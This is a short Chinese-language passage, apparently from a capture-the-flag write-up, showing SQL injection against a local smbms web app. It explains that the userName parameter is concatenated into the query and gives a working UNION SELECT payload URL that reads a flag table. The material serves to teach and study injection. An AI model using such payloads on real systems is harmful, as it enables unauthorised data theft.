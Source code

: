 之前说过，sql 注入最重要的就是拼接字符串。这里就直接把 `userName` 拼接到 sql 语句中，所以如果 `userName` 就可以作为注入点。

然后我们就找到网页上对应的查表点位，直接开始列数为 14, 注入列数为 3 的注入（这些数据可以试出来，也可以直接查看源代码）：

```
http://localhost:8080/smbms/jsp/user.do?method=query&queryName=李%25' union select 1,1,group_concat(flag),4,5,6,7,8,9,1,1,1,1,1 from flag where  '1'like'%251&queryUserRole=0&pageIndex=1 
```

总体的套路就是联合查询，如果采用注释后方 sql 语句的方式，可能不太奏效，这里我就使用直接闭合的方式。重点语句提取出来就是：

```
李%25' union select 1,1,group_concat(flag),4,5,6,7,8,9,1,1,1,1,1 from flag where  '1'like'%251
```

这个语句总体就能做到闭合前面也能闭合后面。`%25` 就是 `%` 本身。
